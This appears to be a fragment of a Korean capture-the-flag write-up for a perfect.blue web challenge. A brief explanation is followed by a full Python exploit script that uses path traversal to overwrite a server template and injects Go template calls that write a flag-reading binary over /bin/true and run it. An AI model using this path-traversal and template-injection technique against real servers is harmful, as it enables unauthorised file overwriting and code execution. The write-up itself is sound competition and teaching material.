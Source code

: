 정리하자면, `/app/tmpl/user.html` 파일을 덮어써 템플릿 엔진에서 `NewError`, `SerializeErrors` 메서드를 호출하여 `/bin/true` 파일에 `/readflag` 바이너리 값을 써주고, `UserHealthcheck` 메서드를 호출하면 된다.    

## Exploit Code    
```python
import requests

def binary_to_hex_string(binary_data):
	hex_string = ''.join(f'\\x{byte:02x}' for byte in binary_data)
	return hex_string

binary_data = open("readflag","rb").read()  
hex_representation = binary_to_hex_string(binary_data)

# url = "http://localhost:7777" 
url = "http://sandevistan.chal.perfect.blue:28945"

r = requests.post(
	f"{url}/user", 
	data={
		"username": "asdf",
	}
)
print(r.status_code)
print(r.text)

r = requests.post(
	f"{url}/cyberware", 
	data={
		"username": "../../../../../../../app/tmpl/user.html", # 경로
		"name": b"""
<!DOCTYPE html>
	<head>
		<link rel="stylesheet" href="static/css/style.css">
		<!-- cool cyberpunk theme from gwannon: https://github.com/gwannon/Cyberpunk-2077-theme-css -->
	</head>
	<body>
		<h2 class="cyberpunk glitched">Hello {{.Name}}!</h1>
		<h3 class="cyberpunk glitched">Here are your cyberwares.</h2>
		<hr />
		{% raw %}
		<div class="cyberwares">
			{{.NewError "xxxxx" "/bin/true"}}
			{{.SerializeErrors \""""+ hex_representation.encode() +b"""\" 0 0}}
			{{.UserHealthcheck}}
		</div>
		{% endraw %}
	</body>
</html>
"""# 내용
	}
)
print(r.status_code)
print(r.text)

r = requests.get(
	f"{url}/user", 
	params={
		"username": "asdf",
	}
)
print(r.status_code)
```